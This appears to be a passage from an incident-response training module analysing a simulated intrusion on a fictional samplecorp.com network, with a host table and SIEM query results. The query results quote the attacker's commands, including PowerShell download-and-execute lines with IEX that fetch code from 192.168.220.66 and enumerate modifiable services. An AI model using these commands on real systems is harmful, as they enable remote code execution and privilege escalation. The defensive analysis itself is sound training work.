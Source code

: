 ![](https://academy.hackthebox.com/storage/modules/238/5.png)

**Brief Analysis of 192.168.220.66**

From the logs, we identified four hosts on the network segment with corresponding IP addresses and hostnames. The host `192.168.220.66`, previously observed in the logs of `WKST01.samplecorp.com`, confirms the presence of an unauthorized entity in the internal network.

| IP | Hostname |
| --- | --- |
| 192.168.220.20 | DC01.samplecorp.com |
| 192.168.220.200 | WKST01.samplecorp.com |
| 192.168.220.101 | HR01.samplecorp.com |
| 192.168.220.202 | ENG01.samplecorp.com |

The below table is the result of a SIEM query that aimed to identify all instances of command execution initiated from `192.168.220.66`, based on data from `WKST01.samplecorp.com`.

| event\_data.CommandLine.keyword: Descending | beat.hostname.keyword: Descending | Count |
| --- | --- | --- |
| `cmd.exe /Q /c cd 1> \\127.0.0.1\ADMIN$\__1555864304.02 2>&1` | WKST01 | 5 |
| `cmd.exe /Q /c dir 1> \\127.0.0.1\ADMIN$\__1555864304.02 2>&1` | WKST01 | 4 |
| `powershell.exe -nop -w hidden -c $c=new-object net.webclient;$c.proxy=[Net.WebRequest]::GetSystemWebProxy();$c.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX` | WKST01 | 2 |
| `whoami` | WKST01 | 1 |
| `...` | ... | ... |
| `powershell IEX (New-Object Net.WebClient).DownloadString('http://192.168.220.66/test.php'); $m = Get-ModifiableService; $m` | HR01 | 1 |

The results suggest that the unauthorized entity has successfully infiltrated the hosts: `WKST01.samplecorp.com` and `HR01.samplecorp.com`.

**HR01.samplecorp.com**

`HR01.samplecorp.com` was investigated next, as the unauthorized entity, `192.168.220.66`, was shown to establish a connection with `HR01.samplecorp.com` at the earliest possible moment in the packet capture.

![](https://academy.hackthebox.com/storage/modules/238/6.png)

Network traffic details suggest a buffer overflow attempt on the service running at port `31337` of `HR01.samplecorp.com`.

![](https://academy.hackthebox.com/storage/modules/238/7.png)

The network traffic was exported as raw binary for further analysis.

![](https://academy.hackthebox.com/storage/modules/238/8.png)

The extracted binary was analyzed in a shellcode debugger, `scdbg`.
